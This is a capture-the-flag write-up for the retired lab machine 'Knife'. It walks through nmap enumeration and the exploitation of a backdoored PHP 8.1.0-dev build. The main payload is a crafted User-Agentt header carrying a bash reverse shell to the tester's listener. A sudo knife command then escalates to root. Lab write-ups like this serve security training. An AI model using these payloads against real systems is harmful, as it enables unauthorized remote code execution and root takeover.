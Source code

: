 # Knife

This is the write-up for the box Knife that got retired at the 28th August 2021.
My IP address was 10.10.14.14 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.242   knife.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/knife.nmap 10.10.10.242
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 be549ca367c315c364717f6a534a4c21 (RSA)
|   256 bf8a3fd406e92e874ec97eab220ec0ee (ECDSA)
|_  256 1adea1cc37ce53bb1bfb2b0badb3f684 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

There is no interesting data and no links on the website, but by checking the HTTP headers, there is an atypical response header:
```
X-Powered-By: PHP/8.1.0-dev
```

This version of PHP was installed with a backdoor and there are [public exploit scripts](https://github.com/flast101/php-8.1.0-dev-backdoor-rce) to exploit it:
```
python3 revshell_php_8.1.0-dev.py http://10.10.10.242/ 10.10.14.14 9001
```

To exploit the backdoor manually, the [blog post](https://flast101.github.io/php-8.1.0-dev-backdoor-rce/) explains to modify the _User-Agent_ accordingly and then it is possible to execute system commands:
```
GET / HTTP/1.1
Host: 10.10.10.242
User-Agentt: zerodiumsystem("bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'");
(...)
```

After running the exploit script or doing it manually, the listener on my IP and port 9001 starts a reverse shell as the user _james_.

## Privilege Escalation

By checking the permissions with `sudo -l`, it shows that the user can run _/usr/bin/knife_ with root privileges:
```
User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

This file is a symbolic link to the tool [Knife from Chef](https://docs.chef.io/workstation/knife/):
```
file /usr/bin/knife

/usr/bin/knife: symbolic link to /opt/chef-workstation/bin/knife
```

This tool has an entry in [GTFOBins](https://gtfobins.github.io/gtfobins/knife/) to elevate privileges to root when run with `sudo`:
```
sudo knife exec -E 'exec "/bin/bash"'
```

After running the command, a shell as root gets started!
